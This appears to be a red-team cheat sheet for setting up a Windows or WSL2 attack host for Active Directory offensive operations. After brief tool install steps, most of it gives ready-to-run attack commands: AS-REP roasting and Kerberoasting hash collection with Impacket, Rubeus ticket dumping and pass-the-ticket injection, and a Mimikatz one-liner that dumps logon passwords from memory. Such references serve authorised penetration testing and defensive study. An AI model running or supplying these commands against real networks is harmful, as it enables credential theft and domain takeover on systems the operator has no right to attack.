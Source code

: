 ```yaml
---
title: "Windows Attack Host"
tags: [Attack-Host, Windows, Rubeus, SharpHound, Impacket, WSL2]
author: "RedMind"
date: 2025-10-22
---
```


# Windows Attack Host

Setup and use a Windows-based attack host (native or WSL2) for Active Directory offensive operations. Includes recommended tooling, install notes, and key command examples.

---

## Tools
- Native: PowerShell 7+, Rubeus.exe, SharpHound.exe, BloodHound GUI, Sysinternals, PuTTY/Plink, Chisel
- WSL2: Python3, impacket, crackmapexec, ldapdomaindump, hashcat (if GPU passthrough), neo4j

---

## Example setup (PowerShell + WSL2)
```powershell
# On Windows: install Chocolatey and a few helpers (optional)
choco install -y putty sysinternals

# On WSL2 (Ubuntu):
sudo apt update && sudo apt install -y python3-pip git neo4j
python3 -m pip install --user impacket ldapdomaindump bloodhound crackmapexec
```

Add `~/.local/bin` to your PATH on WSL.

---

## Core workflows & commands

### Kerberos artifacts (Impacket via WSL)
```bash
# AS-REP collection (WSL)
GetNPUsers.py DOMAIN/ -no-pass -dc-ip DC_IP -usersfile users.txt -outputfile asrep_hashes.txt

# Kerberoast collection (needs creds)
GetUserSPNs.py DOMAIN/attackeruser:Password@DC_IP -outputfile kerberoast.hashes
```

### BloodHound analysis
- Run Neo4j (WSL or native), start BloodHound GUI, import SharpHound zip(s).

### Rubeus (Windows)
```powershell
# List tickets
.\Rubeus.exe list
# Inject ticket
.\Rubeus.exe ptt /ticket:admin.kirbi
# Extract tickets to file
.\Rubeus.exe dump
```

### Mimikatz
- `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"`

Notes:
- Keep Impacket, BloodHound, and Rubeus updated.

---